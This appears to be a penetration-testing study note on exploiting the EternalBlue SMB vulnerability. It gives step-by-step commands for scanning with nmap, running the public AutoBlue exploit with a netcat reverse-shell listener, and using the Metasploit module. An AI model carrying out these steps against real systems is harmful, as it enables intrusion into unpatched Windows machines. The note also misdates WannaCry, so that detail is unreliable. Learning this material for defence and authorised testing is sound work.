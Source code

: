 # Exploiting SMB: Eternal Blue
> EternalBlue (MS17-010 & CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently to the network the target sits on.

## Contents
- [Intro & Info](#intro--info)
  - [MS17-010 ExternalBlue Exploit](#ms17-010-externalblue-exploit)
  - [MS17-010 ExternalBlue Exploit... More Info](#ms17-010-externalblue-exploit-more-info)
  - [MS17-010 EternalBlue: Patches and Such](#ms17-010-eternalblue-patches-and-such)
  - [Shodan Search](#shodan-search)
  - [Exploit Tool: AutoBlue-MS17-010](#exploit-tool-autoblue-ms17-010)
- [Exploit Methods](#exploit-methods)
  - [Manual: AutoBlue](#manual)
  - [MetaSploit](#metasploit)

## Intro & Info

### MS17-010 ExternalBlue Exploit
- EternalBlue was developed by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called The Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specifically crafted packets that consequently facilitate the execution of arbitrary commands.
  - This could also be a reverse shell or meterpreter session in msfconsole.
  - And you get admin. So there's no priv esc to be had. You're in and you're in.
- One of the biggest MS Fubars of the last 10 to 15 years.

### MS17-010 ExternalBlue Exploit... More Info
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017, to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple version of Windows:
  -   Windows Vista, 7, 8.1, Windows 10
  -   Windows Server 2008, 2012, 2016
 
### MS17-010 EternalBlue: Patches and Such
- Microsoft released a patch for the vulnerability in March of 2017. However many users and companies have still not yet patched their systems.
- The EternalBlue exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit, and it also has an exploit module that can be used to exploit the vulnerability on unpatched system.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a priviliged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

### [Shodan Search](https://www.shodan.io/)
- You can do a Shodan search and find thousands of machines still running versions of Windows that are vulnerable (unpatched).

### Exploit Tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Manual Exploitation: Through the use of a tool called AutoBlue-MS17-010

## Exploit Methods
```
nmap -p 445 -sV -sC -O [target ip]
nmap -p 445 -sV --script smb-vuln-ms17-010 [target ip]
```
- First run a standard port scan with nmap (`-sV -sC -O`); should confirm smb and the o/s, etc. 
- Then run an nmap script (`smb-vuln-ms17-010`) to get info about the MS17-010 vulnerability on the target.
  - This will tell you if it is vulnerable or not.

### Manual: AutoBlue

#### 1. [Clone the Repo](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Clone the repo on your local machine
  - Go to the repo, click "<> Code" in the upper right, select HHTPS, and copy the link.
  - On your local machine, where you want the subdir for the repo created.
  - Run: `git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git`
- Follow the instructions on Github (install dependencies, etc.)
- Remember: You'll have to give files executable permissions to run them.

#### 2. Generate Shell Code
- `cd` into the shell code directory of your repo clone.
- run the bash script `shell_prep.sh`
- Answer "yes" to the msvenom question. Then plug in the arguments when prompted.
- Regular shell, stageless
- That's it.  Pay attention to the .bin file name it spits out (`sc_x86.bin` or `sc_x64.bin`)
  - Do ***not*** use the `sc_x86_msf.bin` or the `sc_x64_msf.bin` files.

#### 3. Set up a Listener
```
nc -nvlp 1234
````
- On your local (attack) machine (obviously).
- `-n`  No DNS lookups
- `-v`  Verbose output
- `-l`  Listen for an incoming call
- `-p`  Port number

#### 4. Execute the Python Exploit Script
```
python eternalblue_exploit7.py [target ip] /path/to/shellcode/to/execute.bin
```
- Execute the ***appropriate*** Python script for your target system.
- When you hit enter you should get a reverse shell on your netcat listener. 

### MetaSploit

- Start msfconsole and search for eternalblue
  -  There are two types of modules you can use
  -  Auxiliary: scans, etc. Tells you whether the target is vulnerable or not
  -  Exploit: This one runs the exploit on a vulnerable system
-  `use exploit/windows/smb/ms17_010_eternalblue`
-  Note the default payload. If it's okay, no changes necessary. If not, change it.
-  Check and set options: LHOST, LPORT, RHOSTS
-  `run`
-  You should get a meterpreter session quickly
